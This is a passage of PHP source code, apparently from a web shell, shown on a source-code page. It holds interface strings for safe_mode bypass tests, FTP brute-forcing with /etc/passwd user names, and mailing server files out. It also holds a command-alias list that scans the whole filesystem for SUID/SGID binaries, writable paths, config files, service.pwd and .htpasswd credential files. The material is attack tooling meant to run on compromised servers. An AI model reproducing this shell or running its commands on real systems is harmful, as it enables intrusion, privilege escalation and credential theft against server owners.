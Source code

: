 'tur_text76'=&gt;'Search text in files via find',
'tur_text80'=&gt;'Type',
'tur_text81'=&gt;'Net',
'tur_text82'=&gt;'Databases',
'tur_text83'=&gt;'SQL da sorgula',
'tur_text84'=&gt;'SQL sor',
'tur_text85'=&gt;'Test bypass safe_mode with commands execute via MSSQL server',
'tur_text86'=&gt;'Serverdan dosya indir',
'tur_butt14'=&gt;'Indir',
'tur_text87'=&gt;'Uzak ftp sunucusundan doysa indir',
'tur_text88'=&gt;'FTP-server:port',
'tur_text89'=&gt;'Ftp de dosya',
'tur_text90'=&gt;'Transfer modu',
'tur_text91'=&gt;'Arsivleme',
'tur_text92'=&gt;'without archivation',
'tur_text93'=&gt;'FTP',
'tur_text94'=&gt;'FTP-bruteforce',
'tur_text95'=&gt;'Kullanici listesi',
'tur_text96'=&gt;'Can\'t get users list',
'tur_text97'=&gt;'checked: ',
'tur_text98'=&gt;'success: ',
'tur_text99'=&gt;'* kullanici isimlerinde /etc/passwd for ftp Giris ve sifre',
'tur_text100'=&gt;'Uzak ftp sunucusuna dosya yolla',
'tur_text101'=&gt;'Use reverse (user -&gt; resu) login for password',
'tur_text102'=&gt;'Mail',
'tur_text103'=&gt;'Mail yolla',
'tur_text104'=&gt;'Dosyayi maile yolla',
'tur_text105'=&gt;'To',
'tur_text106'=&gt;'From',
'tur_text107'=&gt;'Subj',
'tur_butt15'=&gt;'Yolla',
'tur_text108'=&gt;'Mail',
'tur_text109'=&gt;'Hide',
'tur_text110'=&gt;'Goster',
'tur_text111'=&gt;'SQL-Server : Port',
'tur_text112'=&gt;'Test bypass safe_mode with function mb_send_mail',
'tur_text113'=&gt;'Test bypass safe_mode, view dir list via imap_list',
'tur_text114'=&gt;'Test bypass safe_mode, view file contest via imap_body',
);
/*
?????? ??????
????????? ???????? ????????????? ?????? ????? ? ???-?? ??????. ( ??????? ????????? ???? ????????? ???? )
?? ?????? ???? ????????? ??? ???????? ???????.
*/
$aliases=array(
'find suid files'=&gt;'find / -type f -perm -04000 -ls',
'find suid files in current dir'=&gt;'find . -type f -perm -04000 -ls',
'find sgid files'=&gt;'find / -type f -perm -02000 -ls',
'find sgid files in current dir'=&gt;'find . -type f -perm -02000 -ls',
'find config.inc.php files'=&gt;'find / -type f -name config.inc.php',
'find config.inc.php files in current dir'=&gt;'find . -type f -name config.inc.php',
'find config* files'=&gt;'find / -type f -name "config*"',
'find config* files in current dir'=&gt;'find . -type f -name "config*"',
'find all writable files'=&gt;'find / -type f -perm -2 -ls',
'find all writable files in current dir'=&gt;'find . -type f -perm -2 -ls',
'find all writable directories'=&gt;'find /  -type d -perm -2 -ls',
'find all writable directories in current dir'=&gt;'find . -type d -perm -2 -ls',
'find all writable directories and files'=&gt;'find / -perm -2 -ls',
'find all writable directories and files in current dir'=&gt;'find . -perm -2 -ls',
'find all service.pwd files'=&gt;'find / -type f -name service.pwd',
'find service.pwd files in current dir'=&gt;'find . -type f -name service.pwd',
'find all .htpasswd files'=&gt;'find / -type f -name .htpasswd',
'find .htpasswd files in current dir'=&gt;'find . -type f -name .htpasswd',